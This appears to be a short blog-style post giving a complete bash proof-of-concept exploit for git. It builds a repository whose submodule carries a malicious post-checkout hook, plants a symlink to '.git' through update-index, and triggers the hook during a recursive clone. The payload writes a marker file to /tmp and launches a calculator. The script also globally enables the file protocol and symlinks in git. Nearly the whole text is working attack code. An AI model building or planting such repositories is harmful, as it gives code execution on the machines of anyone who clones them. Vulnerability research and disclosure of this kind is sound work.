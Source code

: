 Here’s the final version of my script (added comments for clarity):

```
#!/bin/bash


git config --global protocol.file.allow always
git config --global core.symlinks true

git config --global init.defaultBranch main 



tell_tale_path="$PWD/tell.tale"


git init hook
cd hook
mkdir -p y/hooks


cat > y/hooks/post-checkout <<EOF

echo "amal_was_here" > /tmp/pwnd
calc.exe
open -a Calculator.app
EOF


chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"

cd ..


hook_repo_path="$(pwd)/hook"


git init captain
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"


printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
cd ..

git clone --recursive captain hooked


```
